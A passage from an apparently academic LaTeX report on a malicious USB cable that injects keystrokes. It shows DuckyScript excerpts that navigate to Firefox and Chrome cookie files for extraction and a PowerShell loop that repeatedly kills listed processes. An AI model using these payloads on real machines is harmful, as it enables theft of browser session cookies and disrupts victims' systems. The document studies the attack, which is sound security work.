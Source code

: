 After that information is sent back to the attacker, they can connect to the cable and remotely trigger the appropriate attack. For example, if the victim's default browser is Firefox, they could start a terminal, navigate to the default directory for Firefox cookies and extract that file.

\begin{lstlisting}[caption={move into the directory for Firefox cookies}, captionpos=b]
STRINGLN cd "C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\umva4gfp.default-release\cookies.sqlite"
\end{lstlisting}

The same approach can be used for Chrome, the difference is in the file path.

\begin{lstlisting}[caption={move into the directory for Chrome cookies}, captionpos=b]
STRINGLN cd "C:\Users\maaik\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies"
\end{lstlisting}

\subsubsection{Iteratively End Processes}

Finding and ending processes on Windows can be done with PowerShell and without admin privileges. The payload first defines the whitelist then gets a list of all running processes. Next, it will check for every running process whether it is on the whitelist and end it if that condition is fulfilled. \\
This is an excerpt of the payload;

\begin{lstlisting}[caption={Exceprt: a PowerShell looop that ends a running process if it is contained in the whitelist}, captionpos=b]
STRINGLN $criticalProcessesWhitelist = @( "firefox" , "ROCCAT_Swarm_Monitor", "Notepad" )
DELAY 5
STRINGLN while("true"){
DELAY 5
STRINGLN $runningProcesses = Get-Process | Select-Object -ExpandProperty Name | select -Unique
DELAY 5
STRINGLN foreach ($process in $runningProcesses) {
DELAY 5
STRINGLN if ($criticalProcessesWhitelist -contains $process) {
DELAY 5
STRINGLN Stop-Process -Name $process
DELAY 5
STRINGLN Write-Output "process $process deleted"
DELAY 5
STRINGLN }
DELAY 5
STRINGLN }
DELAY 5
STRINGLN Start-Sleep -Seconds 1.5
DELAY 5
STRINGLN }
\end{lstlisting}


